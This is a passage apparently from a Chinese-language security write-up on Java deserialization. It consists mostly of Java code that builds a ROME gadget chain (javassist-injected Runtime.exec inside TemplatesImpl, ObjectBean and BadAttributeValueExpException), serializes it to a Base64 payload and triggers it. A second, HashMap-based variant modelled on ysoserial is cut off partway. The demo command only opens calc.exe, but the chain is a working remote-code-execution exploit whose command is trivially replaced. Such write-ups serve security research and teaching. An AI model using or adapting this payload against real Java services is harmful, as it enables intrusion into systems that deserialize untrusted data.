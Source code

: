 ```java
        String cmd = "java.lang.Runtime.getRuntime().exec(\"calc.exe\");";
        clazz.makeClassInitializer().insertAfter(cmd);
        clazz.setName("sp4c1ous");

        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][] { clazz.toBytecode() });
        setFieldValue(templates, "_name", "HelloTemplatesTmpl");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

        ObjectBean objectBean = new ObjectBean(Templates.class, templates);
        //构造BadAttributeValueExpException
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException("sp4c1ous");
        //反射将恶意的ObjectBean设置进BadAttributeValueExpException中
        setFieldValue(badAttributeValueExpException, "val", objectBean);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(badAttributeValueExpException);
        oos.close();
        System.out.println(new String(Base64.getEncoder().encode(barr.toByteArray())));

        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = ois.readObject();
    }
}

```

用的还是那一条调用起来比较快速的，利用 BadAttributeValueExpException 的链子，结果出来也是这么长。

反而当时参考 ysoserial 来构造的通过 HashMap 进入的要短一些

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import com.sun.syndication.feed.impl.ObjectBean;
import javassist.*;

import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;

public class ROMEtest2 {
    public ROMEtest2() throws NotFoundException {
    }

    public static class StubTransletPayload extends AbstractTranslet {
        public void transform (DOM document, SerializationHandler[] handlers ) throws TransletException {}
```